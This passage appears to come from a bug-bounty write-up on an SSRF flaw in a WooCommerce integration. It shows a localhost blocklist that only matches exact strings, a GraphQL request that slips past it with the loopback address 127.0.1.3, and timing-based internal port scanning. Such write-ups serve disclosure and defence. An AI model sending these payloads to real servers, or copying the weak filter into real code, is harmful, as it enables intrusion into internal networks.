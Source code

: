 ```python
if "127.0.0.1" in shop_Url or "localhost" in shop_Url:  
    raise ValidationError("Access to localhost is not allowed.")
```

This fix most likely relied on blocking obvious string patterns like “127.0.0.1” and “localhost”. However, it failed to cover the entire loopback range (127.0.0.0/8), allowing easy bypasses using alternatives like 127.0.1.3.

---
## **Technique #2: SSRF to Localhost via CIDR Bypass**

After the first technique, the system owners likely implemented a blacklist for classic loopback addresses like 127.0.0.1. However, this kind of filtering only blocks explicitly written IPs and may overlook alternatives within the same IP block.

In this scenario, the address 127.0.1.3 was used. Technically, it belongs to the 127.0.0.0/8 loopback range and is treated as a local address. But because the system only blocked 127.0.0.1, this variation slipped through unnoticed.

#### **Technical Background**

The same WooCommerce integration scenario applies here. The user-supplied shop_Url is sent to the backend via a GraphQL mutation, as shown below:

```http
POST /api/graphql HTTP/2  
Host: redacted.com  
Cookie: session_id=<SESSION_ID>;  
User-Agent: k4yra  
Content-Type: application/json  
  
{  
  "operationName": "ConnectWoocommerce",  
  "variables": {  
    "shop_Url": "127.0.1.3:80"  
  },  
  "query": "mutation ConnectWoocommerce($shop_Url: String!) {\n  connectChannel(shop_Url: $shop_Url)\n}"  
}
```

Once the server receives this request, it performs the following internal HTTP call:

```http
GET http://127.0.1.3:80/wp-json/wc/v1
```

#### **Port Scanning Behavior**

- If port 80 is open → the server responds quickly
- If port 79 is tested → the server times out

This timing difference allows an attacker to bypass the blacklist and perform another round of internal port scanning.
